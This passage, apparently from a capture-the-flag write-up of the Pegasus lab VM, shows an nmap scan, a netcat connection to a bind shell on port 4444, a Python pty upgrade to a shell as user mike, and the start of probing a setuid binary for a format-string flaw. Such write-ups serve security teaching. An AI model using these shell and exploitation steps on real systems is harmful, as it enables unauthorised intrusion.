 ``` c
```

A quick NMAP scan confirms port 4444 has been opened.

``` bash
root@kali:~# nmap -sS -p4444 -T5 172.16.231.132

Starting Nmap 6.47 ( http://nmap.org ) at 2014-12-19 13:47 GMT
Nmap scan report for 172.16.231.132
Host is up (0.00040s latency).
PORT     STATE SERVICE
4444/tcp open  krb524
MAC Address: 00:0C:29:E3:2A:04 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 13.04 seconds
root@kali:~#
```


A quick connection to the port via Netcat and a bit of Python allow us to get a TTY enabled shell.

``` bash
root@kali:~# nc -nv 172.16.231.132 4444
(UNKNOWN) [172.16.231.132] 4444 (?) open
python -c 'import pty;pty.spawn("/bin/bash")'
mike@pegasus:/home/mike$ id
id
uid=1001(mike) gid=1001(mike) groups=1001(mike)
mike@pegasus:/home/mike$
```

Now over to barrebas for the next step ! *fancy screen wipe animation*

* * *

So as user "mike", I started poking around in the setuid binary "my_first". It seemed to be some sort of C program with several functions:

``` bash
mike@pegasus:~$ ./my_first
WELCOME TO MY FIRST TEST PROGRAM
--------------------------------
Select your tool:
[1] Calculator
[2] String replay
[3] String reverse
[4] Exit
```

The mail in /var/mail/mike mentions a git repo with the source code. We started attacking the binary without looking at the code, because the vulnerability jumped up quickly. The third option was not implemented and the reverse string operation seemed to be secure. I then went for the calculator, entering:

``` bash
Selection: 1

Enter first number: 5
Enter second number: AAAA
Error details: AAAA
```
